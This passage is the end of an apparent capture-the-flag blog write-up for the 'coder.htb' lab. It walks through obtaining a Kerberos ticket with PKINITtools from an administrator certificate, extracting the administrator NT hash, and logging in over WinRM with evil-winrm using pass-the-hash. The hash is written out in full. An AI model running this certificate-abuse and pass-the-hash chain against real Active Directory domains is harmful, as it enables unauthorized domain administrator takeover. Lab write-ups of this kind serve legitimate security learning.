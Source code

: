 To obtain the NT hash I used the infamous PKINITtools developped by dirk-jan
```zsh
python PKINITtools/gettgtpkinit.py -cert-pfx administrator.pfx coder/administrator admin.ccache
```

This will give us a cache file and the AS-REP hash, which we're going to need later.
Don't forget to export the ccache to the enviroment variable `KRB5CCNAME`!
```zsh
export KRB5CCNAME=admin.ccache
```

And finally...
```bash
python ./PKINITtools/getnthash.py coder/administrator -key $as-rep-hash
```

Which should output `807726fcf9f188adc26eeafd7dc16bb7`, which can be used to login using WinRM.
```
evil-winrm -i coder.htb -u administrator -H 807726fcf9f188adc26eeafd7dc16bb7
```

![](images/e62df83f-55b9-4c8a-9637-633d168b6953.png)

And thats it! I hope you liked reading this blog post as much as we liked writing it.